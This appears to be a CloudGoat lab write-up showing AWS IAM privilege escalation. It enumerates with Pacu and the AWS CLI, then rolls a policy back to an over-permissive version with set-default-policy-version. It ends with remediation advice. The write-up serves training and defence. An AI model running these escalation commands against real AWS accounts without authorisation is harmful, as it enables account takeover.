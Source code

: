 # 🚀 CLOUDGOAT - IAM Privilege Escalation via  ROLLBACK - `iam:SetDefaultPolicyVersion` (Rollback Attack)

## 📝 TL;DR

An IAM user with **`iam:SetDefaultPolicyVersion`** can escalate privileges by reverting a policy to a **previous version** that contains **over-permissive access** (e.g., `AdministratorAccess`).  
We identify such a version (`v3`), and simply run `set-default-policy-version` to take over the account.

---

We start with some credentials for an AWS IAM user. The keys have been redacted for obvious reasons:

```bash
aws configure --profile raynor
```

Once the credentials are set, I fire up Pacu to see what kind of access I have:

```jsx
Pacu (raynor:No Keys Set) > import_keys raynor
Imported keys as "imported-raynor"
```

Now time to enumerate:

```jsx
Pacu (raynor:imported-raynor) > run iam__enum_permissions
```

Then confirm identity and scope:

```jsx
Pacu (raynor:imported-raynor) > whoami
```

We're operating as an IAM user:

- **UserName:** `raynor-cgidum7opd03zq`
- **Account ID:** `727671863602`
- **Policy Attached:** `cg-raynor-policy-cgidum7opd03zq`

### ✅ We Have: `iam:SetDefaultPolicyVersion`

This single permission is a **golden ticket** for privilege escalation. Here’s why 👇

---

## 🔓 What is a Rollback Attack?

AWS IAM policies support **up to 5 versions**, but only **one version is active** at a time — the “default.”

If an older version contains **elevated permissions** (like `AdministratorAccess`), and still exists, we can simply **roll back** to it using:

```
iam:SetDefaultPolicyVersion
```

No need to create a new policy or edit anything — we just **activate** an older version.

---

## 🧠 Enumeration Phase

We dig deeper:

```jsx
Pacu > run iam__enum_users_roles_policies_groups
```

This returns:

- 4 Users
- 9 Roles
- 4 Policies
- 0 Groups

We use the AWS CLI to list policies:

```bash
aws iam list-policies --scope All --profile raynor
```

Locate the target:

```json
{
    "PolicyName": "cg-raynor-policy-cgidum7opd03zq",
    "Arn": "arn:aws:iam::727671863602:policy/cg-raynor-policy-cgidum7opd03zq",
    "DefaultVersionId": "v1",
    ...
}
```

Now we list the policy versions:

```bash
aws iam list-policy-versions --policy-arn arn:aws:iam::727671863602:policy/cg-raynor-policy-cgidum7opd03zq --profile raynor
```

We find 5 versions:

- **v1** (default) — Basic read-only + `SetDefaultPolicyVersion`
- **v2** — Full deny (unless coming from specific IPs)
- **v3** — ⭐ Full `Action: "*"` access (root-level access)
- **v4** — Conditional `iam:Get*` actions
- **v5** — Some S3 read permissions

---

## 🧨 The Escalation

The most permissive version is clearly `v3`, so we activate it:

```bash
aws iam set-default-policy-version   --policy-arn arn:aws:iam::727671863602:policy/cg-raynor-policy-cgidum7opd03zq   --version-id v3   --profile raynor
```

Boom 💥 — the IAM policy now grants **full admin access** to the account.

---

## ✅ Confirm the Rollback Worked

```bash
aws iam get-policy   --policy-arn arn:aws:iam::727671863602:policy/cg-raynor-policy-cgidum7opd03zq   --profile raynor
```

You should see:

```json
"DefaultVersionId": "v3"
```

That’s it. We’ve successfully escalated privileges in AWS by rolling back to a previously uploaded over-permissive policy using nothing more than `iam:SetDefaultPolicyVersion`.

---

## 🛡️ Remediation

- **Delete old IAM policy versions** that are no longer in use:
  ```bash
  aws iam delete-policy-version     --policy-arn <POLICY_ARN>     --version-id <VERSION_ID>
  ```

- **Restrict access** to `iam:SetDefaultPolicyVersion` to only trusted admin roles.

- **Enable CloudTrail monitoring** and create alerts for:
  - `iam:SetDefaultPolicyVersion`
  - `iam:CreatePolicyVersion`

- Consider **automated detection** for policies that contain:
  - `Action: "*"`
  - `Resource: "*"`
  - or any **inline policies** with overly broad permissions.

- Implement **least privilege** across all IAM roles and users — revisit periodically.

